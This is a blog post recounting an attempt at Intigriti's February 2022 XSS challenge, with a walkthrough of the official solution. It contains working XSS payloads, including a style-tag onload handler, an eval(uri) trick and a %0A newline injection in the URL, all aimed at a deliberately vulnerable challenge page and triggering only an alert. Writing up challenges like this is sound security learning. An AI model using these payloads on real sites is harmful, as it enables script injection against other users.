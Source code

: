 ```yaml
---
title: "Intigriti 0222 Challenge Attempt"
date: 2022-02-19T10:59:07-08:00
slug: intigriti-0222-challenge-attempt
images:
  - images/0222-challenge/og.png
tags:
  - javascript
  - xss
  - intigriti
type: post
---
```


## Intro

Intigriti is a hacking and bug bounty platform. They host a monthly XSS challenge. They are really fun and interesting for someone like me. 

TL;DR, I did not complete this month's challenge. 😭


See

* Challenge: https://challenge-0222.intigriti.io/challenge/xss.html
* Intigriti explanation: https://www.youtube.com/watch?v=P1bFG2qMxec



## My attempt

Even though I did not complete the challenge, I thought I would document what my thought process were and what I've learned. 

### Challenge 

The page has a form with a name input and a toggle. The instruction says the name cannot be empty nor can it be longer than 24 characters.
Let's try it. Enting the name will trigger a dialog popup with the name from the input field. 



 |
:-------------------------:|:-------------------------:
![](/images/0222-challenge/form.png)  |  ![](/images/0222-challenge/popup.png)


First thing I noticed is that the uri changed with `q` and `first` query parameters. It seems like I can manipulate these parameter to cause a XSS attack. Let's see how the parameters are appended. Looking at the source code we can see that it is set directly to the `window.location.search` property. The value is uri encoded.


```js
 window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
    }

    if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}
```

When the page is loaded, what happens to the query parameters?

```js
function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
}

// onsubmit code...

if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
    showModal('Welcome back!', qs)
    }
}
```

First thing I noticed is the `innerHTML` assignment. The `innerHTML` gets or sets the HTML content within the element. It is not uncommon to use `innerHTML` to set the content. This leaves vulnerability valunerbility to XSS attackers. Let's try it

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=<script>alert()</script>&first=yes
```

Nothing happens? Why? Because HTML5 specifies that a `<script>` tag inserted with `innerHTML` should not execute. [See MDN\' security consideration](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations).

But even in the section, it says it does not prevent all the attacks. The most common one is to use `img` with `onerror` field.

```
<img src=# onerror=alert(1) />
```

But this exceeds the character limit. 🤔. This is where I was stuck. I looked up some small xss methods and eventually found the `onload` property in `style` tag. 

```
<style onload=alert(1)>
```


{{<figure
    src="/images/0222-challenge/alert.png"
    alt="A screenshot of the alert(1)"
    width="50%"
>}}


Yay, I got an alert popup. But this is not the objective of the challenge. I need to get `alert(document.domain)`. I spent a couple more days on this challenge and could not find the answers.I tried to see if there is a way maybe I can use a tiny url to load some bad script. But no way I can pass below the 24 characters limit.


## Answer

1 week passed by and Integriti posted their answers. I was really curious on how they by-passed the 24 characters limit. Go watch the video solution because they can explain way better than I did.

### Solution

The method they by pass is to use one of the tiny xss payload [from this github repo](https://github.com/terjanq/Tiny-XSS-Payloads).

Alright, the answer is to use `eval` to execute some js statements, which causes a XSS attack.

```
<style/onload=eval(name)>
```

But what variable do we control in the `showModal` function? Everything is either passed in as arguments, or the `name` in the `window` global object.

### The simple trick 

The key is `var` 🤦‍♀️. Once I saw the solution, it dawn upon me!! `var` variables hoist up in the scope. Since the scope is the window itself, it is accessible in any function!

See more about [\`var\` hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting#var_hoisting).


So we can access the `uri` variable defined in the `if` block.
```
<style/onload=eval(uri)>
```

### More

But this is not the using above payload, you will see an error. `Uncaught SyntaxError: expected expression, got end of script`. Because the uri content is not actually anything of JavaScript statement.

To complete the challenge, we need to get some valid js statement into the `eval` parameter. We can try terminating the previous statement with `;` and have valid syntax afterwards. 

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&;alert(document.domain)`

This didn't work. But `eval` also works with multiline js statements. Let's try that. What is the new line character in encoded URI format: `%0A`.

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&%0Aalert(document.domain)`


{{<figure
    src="/images/0222-challenge/complete.png"
    alt="XSS successful"
    width="50%"
>}}


## Thoughts

I think this challenge is awesome. It combines a couple simple JavaScript quirkiness to create a surprising bypass. The variable hoisting and the `eval` keyword. 2 things I already knew but did not think of during the challenge. Looking forward to March's challenge.

## Things I learned

* `innerHTML` does not execute `script` tag
* [This awesome tiny xss payload repo](https://github.com/terjanq/Tiny-XSS-Payloads)
* `/` act as spaces in HTML tags. Very cool
